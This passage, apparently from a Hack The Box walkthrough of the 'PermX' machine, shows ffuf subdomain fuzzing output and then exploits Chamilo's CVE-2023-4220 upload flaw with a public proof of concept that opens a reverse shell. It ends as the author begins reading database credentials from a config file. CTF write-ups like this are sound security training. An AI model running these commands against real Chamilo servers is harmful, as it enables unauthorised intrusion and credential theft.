         /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://FUZZ.permx.htb
 :: Wordlist         : FUZZ: /home/squ4r00t/tools/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 1242ms]
:: Progress: [114441/114441] :: Job [1/1] :: 10 req/sec :: Duration: [0:10:07] :: Errors: 114440 ::
{{</code>}}

We got `lms` as a vhost. Let's add it to our hosts file.

Navigating to `lms.permx.htb`, we see a web page powered by Chamilo

{{<figure src="/img/htb/permx/lms_page.png" position=center caption="lms.permx.htb powered by Chamilo">}}

After some research, we see that it is vulnerable to [CVE-2023-4220](https://nvd.nist.gov/vuln/detail/CVE-2023-4220) which is an arbitrary file upload allowing any unauthenticated user to achieve RCE by uploading a PHP webshell to the site. This can be exploited with [this POC](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc).

{{<code language="bash" title="Running exploit POC">}}
# Installation / Setup
git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc.git
cd chamilo-lms-unauthenticated-big-upload-rce-poc/
pip install -r requirements.txt

# Exploitation (setup netcat listener before)
python3 main.py -u http://lms.permx.htb -a revshell
{{</code>}}

After running the script, we receive a shell on our netcat listener:

{{<figure src="/img/htb/permx/foothold_shell.png" position=center caption="Reverse shell">}}

## Privilege Escalation
___
### www-data -> mtz
___
Looking around the different files on the server, we notice some interesting ones in `/var/www/chamilo/app/config`, espacially `configuration.php` containing some database credentials:
